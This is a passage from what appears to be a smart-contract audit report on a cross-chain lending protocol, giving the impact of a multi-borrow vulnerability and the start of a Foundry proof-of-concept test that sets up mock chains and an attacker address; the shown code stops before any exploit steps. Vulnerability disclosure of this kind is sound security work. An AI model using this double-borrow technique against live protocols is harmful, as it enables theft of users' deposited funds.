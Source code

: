 ### Impact

– Direct theft of liquidity on each destination chain.
– Protocol insolvency on the source chain (debt > collateral).
– Honest suppliers can no longer redeem; funds are frozen.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test} from "forge-std/Test.sol";
import {Deploy} from "../script/Deploy.s.sol";
import {HelperConfig} from "../script/HelperConfig.s.sol";
import {CrossChainRouterMock} from "./mocks/CrossChainRouterMock.sol";
import {CoreRouter} from "../src/LayerZero/CoreRouter.sol";
import {LendStorage} from "../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../src/Lendtroller.sol";
import {InterestRateModel} from "../src/InterestRateModel.sol";
import {SimplePriceOracle} from "../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../src/LTokenInterfaces.sol";
import {LToken} from "../src/LToken.sol";
import {console} from "forge-std/console.sol";

/**
 * @title TestMultiBorrowVulnerability
 * @notice Test that demonstrates the cross-chain multi-borrow vulnerability
 * @dev This test shows how a user can borrow multiple times using the same collateral
 *      by exploiting the lack of locking mechanisms in cross-chain borrow requests
 */
contract TestMultiBorrowVulnerability is Test {
    address public deployer;
    address public attacker;

    // Chain A (Source - where collateral is held)
    CrossChainRouterMock public routerA;
    LendStorage public lendStorageA;
    CoreRouter public coreRouterA;
    Lendtroller public lendtrollerA;
    InterestRateModel public interestRateModelA;
    SimplePriceOracle public priceOracleA;
    address[] public lTokensA;
    address[] public supportedTokensA;

    // Chain B (Destination 1)
    CrossChainRouterMock public routerB;
    LendStorage public lendStorageB;
    CoreRouter public coreRouterB;
    Lendtroller public lendtrollerB;
    InterestRateModel public interestRateModelB;
    SimplePriceOracle public priceOracleB;
    address[] public lTokensB;
    address[] public supportedTokensB;

    // Chain C (Destination 2)
    CrossChainRouterMock public routerC;
    LendStorage public lendStorageC;
    CoreRouter public coreRouterC;
    Lendtroller public lendtrollerC;
    InterestRateModel public interestRateModelC;
    SimplePriceOracle public priceOracleC;
```